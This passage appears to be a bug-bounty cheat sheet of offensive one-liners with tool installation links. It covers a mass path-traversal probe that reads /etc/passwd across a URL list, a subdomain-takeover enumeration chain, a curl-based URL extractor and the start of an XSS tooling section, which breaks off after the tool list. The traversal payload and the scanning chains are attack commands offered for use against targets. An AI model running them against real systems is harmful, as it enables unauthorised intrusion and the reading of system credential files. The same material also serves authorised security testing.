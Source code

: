 ## Installation Requirements
1. HTTPX : https://github.com/projectdiscovery/httpx


## OneLiner
```
httpx -l url.txt -path "///////../../../../../../etc/passwd" -status-code -mc 200 -ms 'root:'
```

────────────────────────────────────────────────────────────────────────



# Subdomain Takeover

## Installation Requirements
1. Subfinder    : https://github.com/projectdiscovery/subfinder 
2. Assetfinder  : https://github.com/tomnomnom/assetfinder
3. Amass        : https://github.com/OWASP/Amass
4. Subjack      : https://github.com/haccer/subjack


## OneLiner
```
subfinder -d HOST >> FILE; assetfinder --subs-only HOST >> FILE; amass enum -norecursive -noalts -d HOST >> FILE; subjack -w FILE -t 100 -timeout 30 -ssl -c $GOPATH/src/github.com/cybertix/subjack/fingerprints.json -v 3 >> takeover ;
```

────────────────────────────────────────────────────────────────────────



# Extract URLs from Source Code

## OneLiner
```
curl "https://TARGET.Com" | grep -oP '(https*.//|www\.)[^]*'
```


────────────────────────────────────────────────────────────────────────



# XSS (Cross-Site Scripting)

## Installation Requirements
1. Katana       : https://github.com/projectdiscovery/katana
2. Dalfox       : https://github.com/hahwul/dalfox
3. Waybackurls  : https://github.com/tomnomnom/waybackurls
4. GF           : https://github.com/tomnomnom/gf
5. Dalfox       : https://github.com/hahwul/dalfox
6. HTTPX      : https://github.com/projectdiscovery/httpx
